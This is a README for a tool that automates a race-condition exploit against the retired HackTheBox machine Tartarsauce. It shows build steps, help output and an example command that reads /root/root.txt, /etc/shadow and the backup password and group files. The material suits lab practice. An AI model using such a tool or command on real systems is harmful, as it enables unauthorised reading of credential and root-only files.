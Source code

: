 # Automated exploit of race condition in HTB's Tartarsauce

## Build

```
git clone https://gitlab.com/epi052/htb-scripts-for-retired-boxes.git
cd htb-scripts-for-retired-boxes/tartarsauce
python3 -m pip install pyinotify --target triggered
python3 -m zipapp -p "/usr/bin/env python3" triggered
```

## Execution

```
chmod +x triggered.pyz
./triggered.pyz -h 

usage: triggered.pyz [-h] to_watch --to_read [TO_READ [TO_READ ...]] 

positional arguments:
  to_watch              Directory to watch for events

optional arguments:
  -h, --help            show this help message and exit
  --to_read [TO_READ [TO_READ ...]]
                        Space separated list of file names to be read from the
                        diff
```

## Examples

```
./triggered.pyz /var/tmp --to_read /root/root.txt /var/backups/gshadow.bak /var/backups/shadow.bak /var/backups/passwd.bak /var/backups/group.bak /etc/shadow /etc/gshadow
```

## CLI Gotcha

Due to allowing an arbitrary number of files in the `--to_read` option, the positional argument `to_watch` **MUST** come before `--to_read`, otherwise the program has no idea where `--to_read` stops and the `to_watch` directory begins.